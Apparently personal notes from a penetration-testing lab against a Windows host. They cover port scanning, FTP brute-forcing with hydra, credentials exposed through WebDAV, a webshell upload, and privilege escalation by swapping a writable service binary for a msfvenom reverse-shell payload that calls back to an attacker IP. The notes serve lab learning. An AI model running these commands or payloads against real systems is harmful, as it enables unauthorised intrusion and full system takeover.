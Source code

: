 ### Enumeration
```
IP=192.168.247.127
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p135,139,445,3306,5040,7680,8000,30021,33033,44330,45332,45443,49664,49665,49666,49667,49668,49669 -A $IP
```
### Ports 
- 135
	- RPC
- 139
	- RPC
- 445
	- microsoft-ds
- 3306
	- mysql
- 5040
	- unknown
- 7680
	- pando-pub
- 8000
	- BarracudaServer.com (Windows)
- 30021
	- FileZilla ftpd 0.9.41 beta
- 33033
	- unknown
- 44330
	- unknown
- 45332
	- Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
- 45443
	- Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
- 49664
	- RPC
- 49665
	- RPC
- 49666
	- RPC
- 49667
	- RPC
- 49668
	- RPC
- 49669
	- RPC
### Foothold
- 30021
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux -U $IP
		- nothing
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- not vulnerable
- 8000
	- Default landing page
		- ![[Pasted image 20240712141132.png]]
	- Versions
		- Webdav
	- Webdav
		- http://192.168.247.127:8000/fs/C/xampp/passwords.txt
			- xampp-dav-unsecure:ppmax2011
			- mysql - root:NO PASSWORD
		- http://192.168.247.127:8000/fs/C/xampp/htdocs/
			- is the root directory for 45332
			- Uploaded webshell.php
			- ![[Pasted image 20240712141913.png]]
			- Now we have shell commands
			- Used base64 PS1
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 45332
	- ![[Pasted image 20240712141500.png]]
### PE
#### Windows
- jerren
	- whoami /all
		- SeChangeNotifyPrivilege enable
	- net user USERNAME
		- nothing
	- systeminfo
		- windows 10 pro x64
		- 10.0.19042 N/A Build 19042
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
		- nothing
	- Users with console
		- Administrator
		- guest 
		- jerren
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
				- `bd  "C:\bd\bd.exe"
				- can edit bd.exe
				- Can't start, stop bd service
				- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.195 LPORT=22 -f exe > bd.exe
				- Then moved in replace of bd.exe
				- shutdown -r
				- We get a rev shell as nt auth
		- icacls Filepath before .exe
			- Looking for W or F
	- /
		- bd
		- FTP
		- Sites
		- xampp
		- RailsInstaller
		- Ruby26-x64
	- winpeas
### Credentials
### Lessons Learned
- See an exploit path. Just try it. 